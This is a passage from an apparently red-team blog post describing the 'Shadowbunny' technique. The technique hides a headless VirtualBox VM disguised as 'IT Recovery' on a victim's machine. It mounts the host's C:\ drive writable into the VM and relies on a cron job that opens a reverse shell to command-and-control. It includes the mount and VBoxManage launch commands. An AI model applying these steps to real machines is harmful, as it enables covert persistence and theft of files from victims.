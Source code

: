 ```
<SharedFolders>
   <SharedFolder name="shadow_c" hostPath="c:\" writable="true" autoMount="true"/>
</SharedFolders>
```

Inside the VM (considering it is Linux based), one can simple mount the drive via:

```
sudo mkdir /mnt/c
sudo mount -t vboxsf shadow_c /mnt/c
```

This requires the VirtualBox **Guest Additions** to be installed in your attack VM, and it can be added to the default VM image if needed for an attack simulation as we had discussed in the pre-requisites.

At this point we are basically done, if you would open VirtualBox on the victim’s machine you would see the following UI:
![Shadowbunny VirtualBox VM ITRecovery](/blog/images/2020/shadowbunny-virtualbox-itrecovery.png)

As can be seen in in the screenshot, the virtual machine **“IT Recovery”** was successfully created and is currently powered off. Let’s power it on.


## Step 8: Launching the VM

Voila, now it’s time to start the VM. 

Go and run:
```
.\VBoxManage.exe startvm "IT Recovery" –type headless 
```
This will startup the VM and after a second print out a message like:

```
Waiting for VM "IT Recovery" to power on...
VM "IT Recovery " has been successfully started.
```

Now, the VM will boot up. 

Remember, that we added a `cron` job to the Shadowbunny VM. This means after a few moments the VM will establish a reverse shell to the command and control infrastructure.

The following screen shows the outcome as seen by the C2:
![Shadowbunny Reverse Shell](/blog/images/2020/shadowbunny-shell.png)
 

Since we also configured a shared folder to the host, we can mount the shared folder and interact with the file system on the host as seen in the following screenshot:
![Shadowbunny Shared Folder Access](/blog/images/2020/shadowbunny-sharedfolder.png)
 
The above screenshot shows the Shadowbunny VM on the compromised host connecting to the C2 infrastructure. And then from the its possible to directly access the filesystem on the host. 

**Pretty cool.  😊**
